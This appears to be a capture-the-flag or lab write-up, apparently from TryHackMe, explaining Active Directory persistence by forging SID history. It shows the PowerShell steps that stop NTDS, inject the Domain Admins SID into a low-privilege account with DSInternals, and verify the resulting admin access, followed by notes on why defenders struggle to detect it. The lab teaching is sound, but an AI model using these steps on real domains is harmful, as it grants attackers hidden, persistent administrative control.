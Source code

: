 *SIDs* are used to track the security principal and the account's access when connecting to resources. There is, however, an interesting attribute on accounts called the SID history.

*SID* history is a feature that allows an account's access rights to be effectively cloned to another account. This is especially useful during Active Directory (AD) migrations. For example, when users are moved to a new domain, they get a new SID. By adding their old SID to the SID history of the new account, they can continue accessing resources in the original domain while using their new account.

While SID history is helpful for migrations, attackers can exploit it for persistence. By manipulating *SID history*, attackers can grant themselves access to resources or maintain their foothold in the system even after account resets or changes.

*SID history* isn’t limited to SIDs from other domains; it can also include SIDs from the current domain. With sufficient permissions, such as Domain Admin privileges, we can add a SID from the current domain to the SID history of an account we control. This opens the door to a stealthy and powerful persistence technique.

**Here’s how it works:**
- When a user logs in, their security token is generated, containing all associated SIDs, including those in their SID history. These SIDs determine the privileges of the account, including group memberships.
- By adding the SID of a high-privileged group (like Enterprise Admin), the account gains the equivalent privileges of that group, even if it isn’t an official member. This allows an attacker to act as a Domain Admin across all domains in the forest.

This method is particularly sneaky because the account appears to be an ordinary user, perhaps only a member of the Domain Users group. To make it even harder to detect, attackers can use this compromised account to modify the SID history of another account, creating a layered persistence strategy that is difficult to trace and fix.

## Forging History
Get an SSH session on THMDC using the Administrator credentials for this next part. Before we forge SID history, let's just first get some information regarding the SIDs. Firstly, let's make sure that our low-privilege user does not currently have any information in their SID history:
```markup
za\aaron.jones@THMCHILDDC C:\Users\Administrator.ZA>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.ZA> Get-ADUser {your ad username} -properties sidhistory,memberof

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
GivenName         : Aaron
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
Name              : aaron.jones
ObjectClass       : user
ObjectGUID        : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22
SamAccountName    : aaron.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1429
SIDHistory        : {}
Surname           : Jones
UserPrincipalName :
```

This confirms that our user does not currently have any SID History set. Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
```markup

PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512
```

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that *does not allow it to patch LSASS to update SID history*. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the *ntds.dit* file, *the AD database where all information is stored*.

The *NTDS database* is locked when the *NTDS* service is running. In order to patch our SID history, we must first stop the service. **You must restart the NTDS service after the patch, otherwise, authentication for the entire network will not work anymore.**
```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName {username l.priv AD account} -SidHistory {SID to add to SID History} -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds  
```

After these steps have been performed, let's SSH into THMWRK1 with our low-privileged credentials and verify that the SID history was added and that we now have Domain Admin privileges:
```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Users\aaron.jones> Get-ADUser {aaron.jones} -Properties sidhistory 

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc 
Enabled : True 
GivenName : Aaron 
Name : aaron.jones 
ObjectClass : user 
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22 
SamAccountName : aaron.jones 
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512}    !!!
Surname : Jones 
UserPrincipalName : 

PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$       !!!

Directory: \\thmdc.za.tryhackme.loc\c$ 

Mode LastWriteTime Length Name 
---- ------------- ------ ---- 
d----- 9/15/2018 8:19 AM PerfLogs 
d-r--- 5/11/2022 10:32 AM Program Files 
d----- 3/21/2020 8:28 PM Program Files (x86) 
d----- 4/25/2022 7:13 PM tmp 
da---- 5/11/2022 10:11 AM Tools 
d-r--- 4/27/2022 8:22 AM Users 
d----l 4/25/2022 7:11 PM vagrant 
d----- 4/27/2022 8:12 PM Windows 
-a---- 1/4/2022 7:47 AM 103 delete-vagrant-user.ps1 
-a---- 5/1/2022 9:11 AM 169 dns_entries.csv 
-a---- 5/1/2022 9:17 AM 1725 thm-network-setup-dc.ps1
```

**Pitchforks and Torches from the Blue Team**
If you were to RDP into a host and use the Active Directory Users and Computers (ADUC) snap-in, you could view the SID history attribute added to a user. However, even with the highest privileges, this attribute cannot be removed directly because it is protected. Removing SID history requires specialized tools, such as the AD-RSAT PowerShell cmdlets.

Detecting malicious SID history is an even bigger challenge. Regular tools won’t flag anything suspicious because the user won’t suddenly appear as a member of a high-privilege group like Domain Admins. The SID history only takes effect when the user authenticates, making it difficult to spot without actively inspecting user attributes.

Now imagine being on the blue team during an incident. You’ve performed a full domain recovery—rotated the KRBTGT password twice, removed golden and silver tickets, and rebuilt your entire CA server—only to find the attacker still executing Domain Admin-level commands with a low-privileged account. This scenario highlights just how devastating and sneaky SID history abuse can be :).